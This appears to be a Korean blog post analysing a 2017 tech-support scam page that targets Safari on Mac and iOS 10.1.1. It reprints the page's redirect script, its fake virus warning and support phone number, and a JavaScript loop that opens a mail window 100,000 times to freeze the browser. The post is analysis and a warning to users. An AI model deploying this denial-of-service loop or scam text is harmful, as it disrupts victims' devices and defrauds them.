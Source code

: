 ```yaml
---
layout: post
title: Scam Page triggers DoS attack on some apple product(?)
date: 2017-01-08 14:47:36.000000000 +09:00
type: post
published: true
status: publish
categories: - Malware Analysis
tags: []
author:
  login: n0fate
  email: rapfer@gmail.com
  display_name: n0fate
---
```


*딱히 쓸만한 제목이 없어서 제목은 원 글 내용을 따옴*

@qingfro9이 보내준 말웨어 바이트 링크(감사!)인 [Tech support scam page triggers denial-of-service attack on Macs](https://blog.malwarebytes.com/101/mac-the-basics/2017/01/tech-support-scam-page-attempts-denial-of-service-via-mail-app/) 를 보고 확인 중에 아직 살아 있는 사이트(hxxp://safari-get.net)이 있길래 curl로 급하게 긁어와서 정리함.
일단 이 녀석은 `UserAgent`가 `OS 10.1.1` 버전인 운영체제를 대상으로 하는 DoS 취약점임. 링크에서는 맥이라고 써있는데 iOS 10.1.1도 대상인 것 같음. 최신 버전으로 업데이트하면 문제는 해결.

## 스테이지 1
일단 사이트에 접속하면 `index.html` 페이지가 당신을 반김. 이 페이지는 특별한건 없고 접속한 클라이언트 정보를 수집해 통계 정보를제공하는 구글 애널리틱스(google analytics) 코드가 있고, 아래는 웹 브라우저의 사용자 에이전트 정보를 찾아 운영체제 버전을 식별, 리다이렉션 함.

```javascript
	  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
	  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
	  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
	  })(window,document,'script','https://www.google-analytics.com/analytics.js','ga');

	  ga('create', 'UA-73784359-12', 'auto');
	  ga('send', 'pageview');

	if ((navigator.userAgent.match(/OS 10.1.1/i))) {
	   location.replace("hxxp://safari-get.com/11.php");
	} else
	{
	location.replace("hxxp://safari-get.com/10.html");}

```

링크 누르면 납치당하니 좀 수정함.코드를 보면, `OS 10.1.1`, 인 경우, 즉, 아이폰 버전이 10.1.1인 경우 `11.php`로 리다이렉션하고 그 외는 `10.html` 로 리다이렉션함.

## 스테이지 2

### OS 10.1.1이 아닌 경우
일단 `10.html`은 다음과 같음.

```html

	Warning Safari Crashed!!
	 Your Apple Device May Have Adware/Spyware Virus.

	 Call<font size="35px">+1-844-423-2465</font>
immediately to connect with Apple Technical Support for installing the Protection Software. chat logs.

DATA AT RISK:

Your credit card details and banking information.Your e-mail passwords and other account passwords.Your Facebook, Skype, AIM, ICQ and other
<font size="20px">

Your private photos, family photos and other sensitive files.Your webcam could be accessed remotely by stalkers with a VPN virus.
</font>

```

사파리에 출력하는 메시지. 영어 잘 못하는 내가 봐도 문법이 이상함. 여튼 해킹 당했음이라는 메시지인데 이걸 나중에 메일 제목에도 넣음. 아래는 애플 메일 앱을 띄우는 스크립트 코드임.

```html
	jQuery('#result').append('');
```

RFC2638와 [애플 가이드라인](https://developer.apple.com/library/content/featuredarticles/iPhoneURLScheme_Reference/MailLinks/MailLinks.html)을 준수한 코드임. 내용은 다음과 같음.

* 수신자 : `foo@example.com`
* 메일 내용 : Apple Tech Support !
* 참조 : `bar@example.com`
* 제목 : Warning! Virus Detected! Immediately Call ~~~~

그냥 이것만 띄우는 것이면 DoS가 아니지. 이걸 10만번 띄우는 스크립트 코드는 아래에 있음.

```html
	 document.querySelector('a').click(0);

	 for(var i=0;i<100000;i++){
	 	 if(i>0) {

		 document.querySelector('a').click();
		 for(var x=0;x<10000;x++){
		 console.log();
		 }

	} else {
	    document.querySelector('a').click();
	    for(var x=0;x<100000;x++){
		 console.log();
	}
```

메일 보내는 창을 10만번 출력함. 악성코드 걸려서 정보 다털리는건 아니지만 걸리면 짜증날 듯. 시에라 가장 최근버전인 10.12.2에서 확인해보니 경고창을 보여주는 것으로 처리함. (위 링크에 스크린샷 있음). 아이폰에서는 무한로딩.

### OS 10.1.1 인 경우(ex. iOS 10.1.1)
10.1.1 버전인 경우 아이튠즈를 이용함. 핵심 내용은 다음과 같음.

<div class="highlighter-rouge">

```

	jQuery('#result').append('.');
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	[..SNIP..]

```

</div>

핵심은 저 `itunes:문자열(단순한 hello임)`인데 맥에서 테스트해보면 아이튠즈를 한번만 띄움. 아이튠즈 앱 자체가 여러개 뜨는 구조가 아니기 때문인 듯.
아이폰의 경우에는 에러 메시지를 계속 발생시켜서 사파리를 사용불능 상태로 만듬. 문제를 해결하려면 단순히 사파리앱을 껐다가 키는 걸론 안되고, 설정->사파리-> `방문 기록 및 웹 사이트 데이터 지우기`를 선택해서 사파리 내역을 완전 삭제해야 함.

### 추가
`10.html` 코드를 curl로 긁다보니 다음과 같은 코드도 긁혔음.

```bash
	Editing:  
	/home/safarmcl/public_html/port-safari.net/ios.html
	 Encoding:    Re-open Use Code Editor     Close  Save Changes
```

`safari-get.net` 사이트 자체가 실제 운영보다는 테스트용 서버인지 에디팅 경고 메시지가 나타난 그대로 html 파일을 저장하였음. 실제 코드는 아이폰에서 정상작동되지 않음.

## 결론
맥, 아이폰이라고 신난다고 불법 사이트 돌아다니면 뒷통수 맞을 수 있으니 조심히 쓰자.
